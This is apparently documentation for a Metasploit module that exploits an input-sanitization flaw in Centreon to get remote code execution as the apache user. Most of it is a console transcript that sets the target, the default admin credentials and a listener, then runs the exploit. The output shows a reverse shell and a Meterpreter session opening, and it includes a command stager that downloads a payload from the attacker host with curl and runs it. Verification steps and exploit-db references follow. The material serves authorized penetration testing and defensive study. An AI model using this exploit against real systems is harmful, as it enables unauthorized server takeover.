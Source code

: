 ## Introduction

User input isn't sanitized for safe use - and it is possible to gain a Remote Code Execution to the server
hosting the Centreon Service leading to a full server takeover with the user "apache".

```
msf5 > use exploit/linux/http/centreon_pollers_auth_rce 
msf5 exploit(linux/http/centreon_pollers_auth_rce) > set rhosts [IP]
rhosts => [IP]
msf5 exploit(linux/http/centreon_pollers_auth_rce) > set username admin
username => admin
msf5 exploit(linux/http/centreon_pollers_auth_rce) > set password centreon
password => centreon
msf5 exploit(linux/http/centreon_pollers_auth_rce) > set lhost [IP]
lhost => [IP]
msf5 exploit(linux/http/centreon_pollers_auth_rce) > set verbose true
verbose => true
msf5 exploit(linux/http/centreon_pollers_auth_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444 
[*] Send authentication request.
[*] Successful authenticated.
[*] Upload command payload on the target.
[*] Create new poller entry on the target.
[*] Reload the poller to trigger exploitation.
[*]  -- Generating files.
[*]  -- Restarting engine.
[*]  -- Executing command.
[*] Command shell session 1 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:59624) at 2020-02-03 17:41:13 +0400

id
uid=48(apache) gid=48(apache) groups=48(apache),993(centreon-engine),994(centreon-broker),998(centreon),999(nagios)

  --or--

msf5 exploit(linux/http/centreon_pollers_auth_rce) > set target 1
target => 1
msf5 exploit(linux/http/centreon_pollers_auth_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444 
[*] Send authentication request.
[*] Successful authenticated.
[*] Using URL: http://0.0.0.0:8080/fNqJS82wB
[*] Local IP: http://XXX.XXX.XXX.XXX:8080/fNqJS82wB
[*] Generated command stager: ["curl -so /tmp/MBoYQsJv http://XXX.XXX.XXX.XXX:8080/fNqJS82wB;chmod +x /tmp/MBoYQsJv;/tmp/MBoYQsJv;rm -f /tmp/MBoYQsJv"]
[*] Upload command payload on the target.
[*] Create new poller entry on the target.
[*] Reload the poller to trigger exploitation.
[*]  -- Generating files.
[*]  -- Restarting engine.
[*]  -- Executing command.
[*] Client XXX.XXX.XXX.XXX (curl/7.29.0) requested /fNqJS82wB
[*] Sending payload to XXX.XXX.XXX.XXX (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to XXX.XXX.XXX.XXX
[*] Meterpreter session 2 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:60536) at 2020-02-03 17:44:47 +0400
[*] Server stopped.

meterpreter > getuid 
Server username: uid=48, gid=48, euid=48, egid=48
meterpreter > 
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/centreon_pollers_auth_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `set VERBOSE true`
7. Do: `run`

## Targets

```
Id  Name
--  ----
0   Reverse shell (In-Memory)
1   Meterpreter (Dropper)
```

## Advanced options

**ForceExploit**

Override check result.

## References

1. <https://www.exploit-db.com/exploits/47969>
2. <https://www.exploit-db.com/exploits/47977>
3. <https://www.exploit-db.com/exploits/47978>
